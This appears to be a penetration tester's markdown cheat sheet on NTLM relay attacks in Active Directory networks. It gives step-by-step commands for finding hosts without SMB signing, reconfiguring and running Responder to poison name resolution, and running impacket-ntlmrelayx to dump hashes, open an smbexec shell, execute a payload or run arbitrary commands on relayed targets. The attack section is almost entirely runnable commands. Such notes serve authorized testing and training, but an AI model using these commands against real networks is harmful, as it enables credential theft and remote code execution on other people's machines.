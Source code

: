 ```yaml
---
tags:
  - Initial-Access
  - LLMNR
  - NETBIOS
  - SMB
  - AD
---
```

[https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)

Relay captures hashes to target machine for various types of access.
- Only works if SMB signing is disabled or "not required"
- Relayed creds MUST be admin on the machine


## Identifying Relay Targets
___
**Automated**

[RunFinger.py](https://github.com/lgandx/Responder/blob/master/tools/RunFinger.py) included with Responder can scan the network for potential relay targets for:

- SMB
- MSSQL
- RDP

```bash
python3 RunFinger.py -i 192.168.1.0/24
```

**NetExec** will automatically generate a list of targets with --gen-relay-list for:

- SMB

```
nxc smb 192.168.1.0/24 --gen-relay-list output.txt
```


## ntlmrelayx
___


## Responder + ntlmrelayx
---

Edit responder conf:
```bash
sudo nano /etc/responder/Responder.conf
SMB = On ---> Off
HTTP = on ---> Off
```
Make targets list
```bash
echo "<TargetIP>" > targets.txt
```
Run responder
```bash
sudo responder -I eth0 -wv
```
Start ntlmrelayx with any of these options

**Dump hashes**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```
**Get semi-interactive smbexec bind shell** (`nc localhost 11000`)
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
**Execute payload**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -e payload.exe
```
**Execute Command**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c 'whoami'
```
Wait for auth attempt (or coerce auth attempt)
